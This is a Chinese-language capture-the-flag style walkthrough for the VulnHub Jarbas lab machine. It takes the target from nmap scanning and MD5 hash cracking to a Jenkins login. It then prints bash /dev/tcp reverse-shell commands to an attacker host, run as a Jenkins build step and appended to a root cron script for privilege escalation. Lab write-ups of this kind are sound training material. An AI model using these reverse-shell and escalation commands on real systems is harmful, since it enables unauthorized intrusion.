

> 文档说明：https://www.vulnhub.com/entry/jarbas-1,232/
>
> 靶机下载：**[Download (Mirror)](https://download.vulnhub.com/jarbas/Jarbas.zip)**: 

## 信息收集

### 主机发现

扫描C段

```
sudo nmap -sn 10.9.75.0/24
```


### 端口扫描

```
sudo nmap --min-rate 10000 10.9.75.10
```


详细扫描服务版本，系统

```bath 
sudo nmap -sT -sV -O -p 22,80,3306,8080 10.9.75.10 
```


### 目录爆破

```bash
dirsearch -u http://10.9.75.10 -i 200  
```


## 漏洞探测

### whatweb

访问80端口


```bash
whatweb http://10.9.75.10
```


并没有识别到类似的CMS内容管理系统，

继续访问`access.html`发现了类似`用户名:加密后的密码`的东西


###  hash-identifier 

可以使用工具来验证加密类型

```bash
hash-identifier "5978a63b4654c73c60fa24f836386d87"  
```


拿去在线网站进行[md5解密](https://www.somd5.com/)


> `tiago:italia99`
>
> `trindade:marianna`
>
> `eder:vipsu`

访问8080端口


### whatweb

```bash
whatweb http://10.9.75.10:8080
```


指纹识别出一个`Jenkins`的CMS管理系统

尝试使用上面解密出来的密码进行登陆

使用`eder:vipsu`登陆成功！


新建一个任务


选择第一个自由风格软件项目就可以，然后往下翻，点击确定

点击`Build构建`



由于目标系统是linux系统，所以选择第二个`execute shell`

```bash
/bin/bash >& /dev/tcp/10.9.75.3/6868 0>&1

#反弹到kali上
```

点击应用，然后点击保存


这个时候kali先监听`6868`端口

```bash
nc  -lvvp 6868  
```

回到页面上点击立即构建


就反弹到kali机器上了


页面上会显示有一个任务正在运行


我们拿到shell是没有回显的，可以通过`python`获取显示shell

```python
python -c "import pty;pty.spawn('/bin/bash')"
```


最后再计划任务里找到了以`root`运行 的程序


查看文件内容

```bash
cat /etc/script/CleaningScript.sh
```


可以在里面添加反弹shell，

```bash
echo "/bin/bash >& /dev/tcp/10.9.75.3/6869 0>&1" >> /etc/script/CleaningScript.sh
```


kali监听`6869`端口，等待反弹


**Jenkins** 的漏洞利用方式有很多，可以自行去网上查阅相关资料

